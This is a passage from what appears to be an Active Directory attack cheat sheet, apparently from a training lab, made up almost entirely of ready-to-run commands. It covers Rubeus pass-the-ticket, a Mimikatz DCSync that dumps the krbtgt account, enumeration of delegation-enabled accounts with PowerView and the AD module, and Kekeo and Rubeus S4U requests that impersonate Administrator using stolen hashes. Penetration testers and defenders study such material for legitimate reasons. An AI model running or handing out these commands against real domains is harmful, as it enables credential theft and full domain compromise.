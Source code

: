 ```
# Use the ticket
.\Rubeus.exe ptt /ticket:<TGTofCorp>
```

**4. DCSync attack against Corp using the injected ticket:**

```
# Run DCSync with Mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:corp\krbtgt"'
```

#### Constrained Delegation



**Pre-requisites**



**Kekeo:**



```
.\kekeo.exe
```

Link: [Kekeo](https://github.com/gentilkiwi/kekeo/)

**1. With Powerview dev Version:**

```
# Users enumeration
Get-DomainUser -TrustedToAuth
# Computers Enumeration
Get-DomainComputer -TrustedToAuth
# Search for domain computers with unconstrained delegation enabled from property dnshostname
Get-NetComputer -Unconstrained | select -ExpandProperty dnshostname
```

**2. With AD Module:**

```
# Enumeration users and computers with constrained delegation enabled
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

**3. With Kekeo:**

```
# Requesting TGT
tgt::ask /user:<username> /domain:<domain> /rc4:<hash>
# Requesting TGS
/tgt:<tgt> /user:Administrator@<domain> /service:cifs/dcorp-mssql.dollarcorp.moneycorp.local
# Use Mimikatz to inject the TGS
Invoke-Mimikatz -Command '"kerberos::ptt <kirbi file>"'
```

**4. With Rubeus:**

```
# Requesting TGT and TGS
.\Rubeus.exe s4u /user:<username> /rc4:<hash> /impersonateuser:Administrator /msdsspn:"CIFS/<domain>" /ptt
```
